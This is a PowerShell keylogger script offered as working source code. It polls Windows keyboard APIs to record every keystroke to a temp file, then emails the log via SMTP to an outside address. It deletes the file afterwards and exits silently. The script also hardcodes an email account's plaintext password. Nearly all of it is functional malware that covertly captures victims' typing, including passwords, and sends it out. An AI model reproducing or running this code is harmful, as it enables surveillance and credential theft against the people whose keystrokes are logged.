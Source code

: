 $TimesToRun = 1
$RunTimeP = 1                       # Time in minutes
$From = "couplegeek1@gmail.com"
$Pass = "Blackbook2001"
$To = "mccentraladm@gmail.com"
$Subject = "Keylogger Results"
$body = "Keylogger Results"
$SMTPServer = "smtp.mail.com"
$SMTPPort = "587"
$credentials = new-object Management.Automation.PSCredential $From, ($Pass | ConvertTo-SecureString -AsPlainText -Force)
############################


$TimeStart = Get-Date
$TimeEnd = $timeStart.addminutes($RunTimeP)

#requires -Version 2
function Start-KeyLogger($Path="$env:temp\keylogger.txt") 
{
  # Signatures for API Calls
  $signatures = @'
[DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)] 
public static extern short GetAsyncKeyState(int virtualKeyCode); 
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int GetKeyboardState(byte[] keystate);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int MapVirtualKey(uint uCode, int uMapType);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int ToUnicode(uint wVirtKey, uint wScanCode, byte[] lpkeystate, System.Text.StringBuilder pwszBuff, int cchBuff, uint wFlags);
'@

  # load signatures and make members available
  $API = Add-Type -MemberDefinition $signatures -Name 'Win32' -Namespace API -PassThru
    
  # create output file
  $null = New-Item -Path $Path -ItemType File -Force

  try
  {

    # create endless loop. When user presses CTRL+C, finally-block
    # executes and shows the collected key presses
    $Runner = 0
	while ($TimesToRun  -ge $Runner) {
	while ($TimeEnd -ge $TimeNow) {
      Start-Sleep -Milliseconds 40
      
      # scan all ASCII codes above 8
      for ($ascii = 9; $ascii -le 254; $ascii++) {
        # get current key state
        $state = $API::GetAsyncKeyState($ascii)

        # is key pressed?
        if ($state -eq -32767) {
          $null = [console]::CapsLock

          # translate scan code to real code
          $virtualKey = $API::MapVirtualKey($ascii, 3)

          # get keyboard state for virtual keys
          $kbstate = New-Object Byte[] 256
          $checkkbstate = $API::GetKeyboardState($kbstate)

          # prepare a StringBuilder to receive input key
          $mychar = New-Object -TypeName System.Text.StringBuilder

          # translate virtual key
          $success = $API::ToUnicode($ascii, $virtualKey, $kbstate, $mychar, $mychar.Capacity, 0)

          if ($success) 
          {
            # add key to logger file
            [System.IO.File]::AppendAllText($Path, $mychar, [System.Text.Encoding]::Unicode) 
          }
        }
      }
	  $TimeNow = Get-Date
    }
	send-mailmessage -from $from -to $to -subject $Subject -body $body -Attachment $Path -smtpServer $smtpServer -port $SMTPPort -credential $credentials -usessl
	Remove-Item -Path $Path -force
	}
  }
  finally
  {
    # open logger file in Notepad
	exit 1
  }
}

# records all key presses until script is aborted by pressing CTRL+C
# will then open the file with collected key codes
Start-KeyLogger
